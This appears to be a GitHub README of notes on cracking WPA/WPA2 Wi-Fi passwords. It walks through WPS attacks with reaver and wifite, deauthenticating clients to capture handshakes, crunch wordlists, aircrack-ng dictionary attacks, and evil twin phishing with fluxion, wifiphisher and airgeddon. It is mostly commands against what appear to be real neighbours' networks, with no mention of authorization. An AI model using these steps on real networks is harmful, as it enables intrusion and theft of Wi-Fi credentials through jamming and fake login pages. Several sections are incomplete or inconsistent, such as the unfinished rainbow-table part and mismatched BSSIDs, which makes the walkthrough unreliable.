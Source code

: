 # Play With WPA / WPA2 Encryption


### WPA/WPA2:
- WPA/WPA2 (Wi-Fi Procted Access) is the latest generation of network encryption.
- It's desgined to secure wireless computer network.
- WPA/WPA2 are similar but the only different is WPA2 uses CCMP algorithm.
- It's the most widely used encryption to secure the networks.
- It's using a unique temporary key and using 256 bits.

First we have to check is which network have WPA and enable on it. We gonna use tool called **wash**.

Open a terminal and type: `wash`

You will see the all option.

`wash -i wlan0mon -F`

```
wahs		-> tool
-i			-> interface
wlan0mon	-> network card name
-F			--ignore-fcs (Ignore frame checksum errors)
```
Select your target.

```
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
50:64:2B:47:F0:53    1  -75  2.0  No   RalinkTe  Arnob Amit
0C:80:63:78:0F:0A    1  -91  2.0  No   RalinkTe  jarif
D4:6E:0E:77:03:1E    1  -86  2.0  No   RalinkTe  AHAD JOY
14:CC:20:B2:B3:E2    1  -88  1.0  No   AtherosC  WiFi
C4:6E:1F:0B:A2:E0    1  -61  1.0  No   AtherosC  shad wi-fi
```
Now We gonna use tool called **reaver**.

`reaver -i wlan0mon -b 50:64:2B:C7:3E:30 -c 6 -vv 1`

```
reaver				-> tool
-i					-> interface
wlan0mon			-> network card on monitor mode
XX:XX:XX:XX:XX:XX	-> target network mac address
-c					-> channel
-vv					-> display non chractor error
-K					-> pixie-dust
```
This method is not working good. Now we use **wifite** tool. Just use the command then network scan will be automatically.

`wifite`

```
NUM                      ESSID   CH  ENCR  POWER  WPS?  CLIENT
   ---  -------------------------  ---  ----  -----  ----  ------
     1                      L1F2     1   WPA   51db   yes                                             
     2                      LiFi     6   WPA   48db    no                                             
     3                shad wi-fi     1   WPA   40db   yes                                             
     4                        SK     3   WPA   35db   yes    1                                        
     5                     maruf    11   WPA   35db    no
```

Then press *ctrl+c* and type your target channel. Example:

`[+] select target(s) (1-40) separated by commas, dashes or all: 1`

This method is not working maximux time. Now we use another method.

## Capture The Handshake File

We can only capture handshake file when a client connect to the network.

**Steps:**
- We will disconnect the client using deauthentication attack.
- Then we will let him connect again by stoping the attack.
- After that will be able to capture the handshake. 


`airmon-ng start wlan0`		-> change monitor mood.

`airodump-ng wlan0mon`		-> scan the network

Scan the target network.
`airodump-ng -c 5 --bssid XX:XX:XX:XX:XX:XX --write HandShak wlan0mon`

New *.cap* file is created.

## Creating a wordlist.

Crunch can generate all possible combinations and permutations.

**Crunch Useful Commands:**

- (MIN) The minimum number of characters
- (MAX) The maximun number of character
- T(PATTERN) You can use it if you know the first or the last *character* of the password
- O(OUTPUT) where do you want to output the wordlist

`CRUNCH (MIN)(MAX) {CHARACTERS:NUMBERS|SYMBOLES|CAPITAL OR SMALL LETTER} -T (PATTERN) -O (OUTPUT)`

Example create word list.

`crunch 5 8 123456abcdefg -o /root/Documents/wordlist.list`

or you can min and max is same number.

`crunch 8 8 123456abcdefg -o /root/Documents/wordlist.list`

`crunch 5 5 123456abcdefg -t a@@@b -o /root/Documents/wordlist.list`


## Dictionary Attack

Guessing the password of the access point by using a wordlist contants a large number of passwords.

**THEORY**
- Aircrack-ng tool will combine the passwords with the access point name.
- Create a pairwish master key or (PMK) using PBKDF2 algorithm
- This PMK is going to compared to the **HANDSHAK**

Target you network as like befoure and then dictionary attack using aircrack-ng tool.

`aircrack-ng dictionary-01.cap -w '/root/Documents/wordlist.list`

If the password is in your wordlist then you get it.


## Creacking WPA/WPA2 Using BRETEFORCE Attack

The problems that we could face with dictionary attack is there is not enough space on our HARD DRIVE nad tacking time to generate a big wordlist.

**BruteForce Attack:**

- Capture the HANDSHAKE.
- Use AIRCRACK-NG and CRUNCH at the same time.
- Use CRUNCH to specify the charactures.

Chanve manage mode to monitor mode.
`airmon-ng start wlan0`

Scaning network for target.
`airodump-ng wlan0mon`

Target network scaning.
`airodump-ng -c 5 --bssid XX:XX:XX:XX:XX:XX --write bruteforce wlan0mon`


## Cracking WPA/WPA2 Using RAINBOW TABLE Attack

Rainbow table attack is much quicker then dictionary and bruteforce attack. Rainbow table attack converting all the PASSWORD to PMK.

**STEPS**

- Creaate a databse using Alrolib-ng.
- Import the essid and the wordlist to the database.
- Combing the essid with the wordlist.
- Convert the password to pmk.

**NOT COMPLETE**

# Tools

## Cracking WPA/WPA2 Using Evil Twin Attack

- Create a new access point has the same information of the target network.
- Jam the target network.
- Tthe client will forced to connect to our (AP)
- A security recommendation page will pop up and ask him for the password.

We will use **fluxion** tool. It has not default install kali linux. So first we have to clone or download in github.

`https://github.com/FluxionNetwork/fluxion`

Go to **fluxion** directory first and install it.

`root@kali:~/fluxion# ./Installer.sh`

## WifiPhisher

Install wifiphisher is not install manually. We have to install in linux environment.

`https://github.com/wifiphisher/wifiphisher`

`https://github.com/wifiphisher/wifiphisher.git`

`./ setup.py`

`wifiphisher --force-hostapd`

## Airgeddon

We have to install airgeddon in linux enviroment.

`https://github.com/v1s1t0r1sh3r3/airgeddon`

`https://github.com/v1s1t0r1sh3r3/airgeddon.git`

`./airgeddon.sh`
